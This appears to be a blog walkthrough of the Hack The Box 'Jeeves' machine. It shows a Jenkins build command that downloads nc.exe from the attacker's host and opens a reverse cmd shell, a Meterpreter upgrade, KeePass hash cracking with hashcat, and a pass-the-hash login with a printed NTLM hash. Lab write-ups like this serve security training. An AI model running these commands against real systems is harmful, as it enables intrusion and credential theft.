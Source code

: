 ```yaml
---
title: "Jeeves Walkthrough(Hack The Box)"
date: 2025-04-07
draft: false
description: "a description"
tags: ["Medium", "Windows", "Hack The Box", "Hacking", "Web", "Walkthrough"]
lastmod: 2025-04-07
---
```

## Reconnaissance #Windows 
- We got port 135, 80, 445 open on the machine. Nmap scan reveals these
![Pasted image 20241215194409.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215194409.png?raw=true)
- On port 80 we got a web application running with a search option for articles :That was my initial impression
- Its running on windows 10 and the search option leads to an error page, surprisingly. Also it's a SQL error.
![Pasted image 20241215145119.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215145119.png?raw=true)
- From the error page I can see get the server info
![Pasted image 20241215145414.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215145414.png?raw=true)
- I tried all the things from directory to host enumeration it all failed . The reason is I overlooked a port which is 50000. This port is also had a web page on it.
![overlooked](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExanBwOGhzZXVkOGE3OGc2OW9rMTVwNTJpcmN3eWxiNGM1eWlxcDQ3NyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/99s3muxpBpgZqrz9Bk/giphy.gif)

## Enumeration
- On fuzzing the directories I get a hit 
```bash
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://jeeves.htb:50000/FUZZ -t 60
```
![Pasted image 20241215194726.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215194726.png?raw=true)
- After accessing the directory I was so happy to see jenkins. Then I got access easily by injecting this following command to download nc from my my machine on the project build page.
{{< alert icon="circle-info" >}} I have exploited jenkins multiple times in THM and HTB, It's relatively easy to leverage jenkins for a foothold  {{< /alert >}}

## Exploitation
 ```powershell
 powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.4:8000/nc.exe' -OutFile 'C:\Windows\Temp\good.exe'"
```
- Executed it using next build command 

```cmd
C:\\Windows\Temp\good.exe <ip> <port> -e cmd.executing
```
- Soon after getting user flag I tried this `whoami /priv` and saw seimpersonate set enabled and tried some of the attacks from metasploit but failed.
- Initially to transfer this shell to meterpreter I used `exploit/multi/script/web_discovery` for the payload `windows/meterpreter/reverse_tcp` cause x64 was not working.
- This above module helped me to create a meterpreter shell by presenting a command to paste in the shell session I had.
- Soon after executing the command I got meterpreter access.
- As I didn't had any luck with potato attacks. I decided to check other directories and found a file in the Documents folder for this user. Which was `CEH.kdbd`.
- which is a keepass db file so typically this requires master key to unlock it.
- I used  john to generate hash and then hashcat to crack it.
```bash
keepass2john CEH.kdbd >> kdbd.hash
```
- Then cracked the generated hash using hashcat
```bash
hashcat kdbd.hash  /usr/share/wordlists/rockyou.txt --user -m 13400
```
- I used `--user` flag as hash had a username `CEH`.
- I got the password which is `<Redacted>`
![Pasted image 20241215201728.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215201728.png?raw=true)
- I opened the db using `kpcli --kdb CEH.kdbx` and provided master password when it prompted
![password](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZ2EzZGxhaHBmeXgyOTBwZnM4NDRxOG5ieWdwMXY2ejQ0azd5dzBzaSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/UaknrN00ViA8GiqfMV/giphy.gif)
- Only a password hash seemed interesting to me
![Pasted image 20241215201952.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215201952.png?raw=true)

## Privilege Escalation
- I checked the hash's sanity as Administrator to machine's share using crackmapexec and it was a success
```bash
crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
![Pasted image 20241215202113.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202113.png?raw=true)
- Now using psexec.py I initiated pass the hash attack to get a shell
- `psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe`
![Pasted image 20241215202422.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202422.png?raw=true)
- Administrator's Desktop folder had this `hm.txt` which said to look elsewhere for the root flag but by issuing `dir /R` I got to see the alternate data streams for the files.
![elsewhere](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNmFuamdjbW42Y2YwOGc4NTN6amc4aDN4ZjdjOHVjdXZqMTljZjd0MSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/YQAKKoou2jpBf0e9Cj/giphy.gif)
![Pasted image 20241215202656.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202656.png?raw=true)
- To read the contents of the root flag I typed `more < hm.txt:root.txt`
![Pasted image 20241215202910.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202910.png?raw=true)

{{< typeit >}} This box is one of the initial boxes that I pwned in Hack The Box. Boxes like this made me to love AD. As always see you again ;) {{< /typeit >}}

![bye](https://media.giphy.com/media/YryOxqFsFTjWg/giphy.gif?cid=790b76115cfty741txbxw52miz2en646ne5gpnrb7fwalfrf&ep=v1_gifs_search&rid=giphy.gif&ct=g)
